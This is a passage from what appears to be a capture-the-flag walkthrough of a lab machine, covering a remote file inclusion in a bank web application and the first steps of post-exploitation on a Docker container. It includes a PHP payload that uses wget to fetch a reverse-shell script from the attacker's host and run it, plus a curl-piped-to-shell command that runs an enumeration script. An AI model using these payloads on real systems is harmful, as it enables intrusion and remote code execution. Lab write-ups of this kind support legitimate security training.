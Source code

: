 We'll save this as about.php, and host it with python in another terminal session. 

```bash
python -m SimpleHTTPServer 80
```

We risk executing php on our own system if we use the apache2 service on Kali...we don't want that. Remember, we suspect the application already adds the .php extension to includes, so we don't need to add it or use null-bytes or anything fancy. Just include

> http://OUR_URL/about

![screenshot](/assets/img/safeharbor/bank_rfi4.PNG)

Righteous. Now we have RCE on the container. Let's get a real shell by copying over the pentestmonkey script, and changing the IP & PORT variables to our environment. We'll also need to make a small change to our about.php file:

```php
<?php
echo "<pre>";
echo system("wget http://200.0.12.102/shell.php -O /var/tmp/shell.php; php /var/tmp/shell.php");
echo "</pre>";
?>
```

![screenshot](/assets/img/safeharbor/bank_rfi5.PNG)

Ok so now that a real shell has been achieved, let's do some post-exploitation enum. Buckle up your seatbelts because now we have really started the box. Start out simple with LinEnum.sh and look for anything interesting. Seems we have a weird shell in addition to this, so we have to keep in mind that any scripts we want to run will need to be done with "ash". On the docker container we'll run the following rather than copying scripts over:

```bash
curl http://200.0.12.102/linenum.sh | ash
```

Once this completes, we'll see in bright gold letters "[+] Looks like we're in a Docker container" and unfortunately www-data is not part of the docker group, so it seems we are quite limited in what we can do from here. Something in the networking section stands out though...

# Container 1 - Post-Exploitation
